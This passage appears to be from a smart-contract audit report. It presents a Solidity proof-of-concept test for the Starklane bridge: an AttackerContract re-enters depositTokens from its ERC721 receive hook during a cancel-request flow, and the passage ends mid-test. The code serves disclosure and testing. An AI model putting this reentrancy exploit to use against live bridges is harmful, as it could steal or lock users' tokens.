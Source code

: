 Add this in the last of the `apps/blockchain/ethereum/test/Bridge.t.sol` file.

```solidity
contract AttackerContract {

    address public bridge;
    snaddress public ownerL2;
    address public collection;

    constructor(address _bridge, address _collection) payable {
        bridge = _bridge;
        ownerL2 = Cairo.snaddressWrap(0x1);
        collection = _collection;
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns(bytes4) {
        uint256[] memory ids = new uint256[](1);
        ids[0] = tokenId;
        IStarklane(bridge).depositTokens{value: 30000}(
            0x123,
            collection,
            ownerL2,
            ids,
            false
        );
        

        return this.onERC721Received.selector;
    }

}

interface IStarklaneEscrowed is IStarklane {
    function _escrow(address collection, uint256 tokenId) external view returns(address);
}

contract AuditorTest is BridgeTest {

    function test_auditor_deposit_before_burn() public {
        
        uint256 delay = 30;
        IStarknetMessagingLocal(snCore).setMessageCancellationDelay(delay);
        uint256[] memory ids = new uint256[](2);
        ids[0] = 0;
        ids[1] = 1;

        // deploy an attack contract that will deposite on receiving an NFT
        AttackerContract attackContract = new AttackerContract{value: 10 * 30000}(bridge, erc721C1);

        (uint256 nonce, uint256[] memory payload) = setupCancelRequest(address(attackContract), ids);
        assert(IERC721(erc721C1).ownerOf(ids[0]) != address(attackContract));
        assert(IERC721(erc721C1).ownerOf(ids[1]) != address(attackContract));

        Request memory req = Protocol.requestDeserialize(payload, 0);

        vm.expectEmit(true, false, false, false, bridge);
        emit CancelRequestStarted(req.hash, 42);
```